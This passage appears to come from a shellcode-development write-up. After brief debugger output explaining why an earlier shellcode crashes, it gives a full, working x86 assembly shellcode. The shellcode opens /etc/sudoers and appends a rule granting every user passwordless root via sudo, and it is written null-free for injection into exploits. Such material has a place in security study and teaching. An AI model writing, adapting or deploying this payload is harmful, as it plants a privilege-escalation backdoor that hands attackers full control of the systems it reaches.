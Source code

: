 ```
=> 0x804a094 <code+84>:	int    0x80
   0x804a096 <code+86>:	add    BYTE PTR [eax],al
   0x804a098:	add    BYTE PTR [eax],al
   0x804a09a:	add    BYTE PTR [eax],al
   0x804a09c:	add    BYTE PTR [eax],al
```

We can see EAX is populated 0xffffff01 which results in a seg fault when the interrupt is ran.

So all in all, the shellcode is fairly useless. 

For the polymorphic and working version of the shellcode I've used the JMP CALL POP technique for getting the string to be written on the stack. The shellcode is also register independent, null free, and smaller than the original that didn't work (decreased from 86 bytes to 79 bytes). 

```nasm
global _start

section .text

_start:

	xor edx, edx		; clear edx
	xor ecx, ecx		; clear ecx
	push edx		; terminating NULL
	push 0x7372656f 	; "sreo"
	push 0x6475732f		; "dus/"
	push 0x6374652f		; "cte/"
	mov ebx, esp		; point ebx to stack
	inc ecx			; ecx to 1
	mov ch, 0x4		; ecx to 401 O_WRONLY | O_APPEND
	push 0x5		; open()
	pop eax			
	int 0x80		; execute open
	xchg ebx, eax		; save fd in ebx
	
	jmp short setup

	
write:

	pop ecx			; pop "ALL ALL=(ALL) NOPASSWD: ALL"
	mov dl, 0x1c		; len 28
	push 0x4		; write()
	pop eax		
	int 0x80		; execute write

	push 0x1		; exit ()
	pop eax
	int 0x80
	
setup:
    call write
    db "ALL ALL=(ALL) NOPASSWD: ALL" , 0xa
```
